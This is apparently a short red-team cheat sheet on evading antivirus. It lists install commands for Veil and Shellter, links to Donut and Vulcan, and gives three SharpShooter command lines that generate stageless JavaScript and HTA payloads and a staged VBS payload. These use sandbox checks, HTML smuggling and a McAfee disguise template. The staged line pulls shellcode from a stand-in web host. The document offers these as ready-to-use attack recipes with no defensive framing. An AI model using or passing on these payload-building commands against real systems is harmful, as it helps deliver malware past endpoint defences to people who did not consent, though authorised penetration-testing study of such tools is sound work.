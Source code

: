 # Bypassing AV

### Veil Framework <a id="veil-framework"></a>

Install on Kali:

```text
apt install veil
/usr/share/veil/config/setup.sh --force --silent
```

Reference: [https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil)

### Shellter <a id="shellter"></a>

Source: [https://www.shellterproject.com/download/](https://www.shellterproject.com/download/)

```text
apt install shellter
```

### Sharpshooter <a id="sharpshooter"></a>

Javascript Payload Stageless:

```text
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Stageless HTA Payload:

```text
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Staged VBS:

```text
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

Reference: [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

### Donut: <a id="donut"></a>

Source: [https://github.com/TheWover/donut](https://github.com/TheWover/donut)

### Vulcan <a id="vulcan"></a>

Source: [https://github.com/praetorian-code/vulcan](https://github.com/praetorian-code/vulcan)

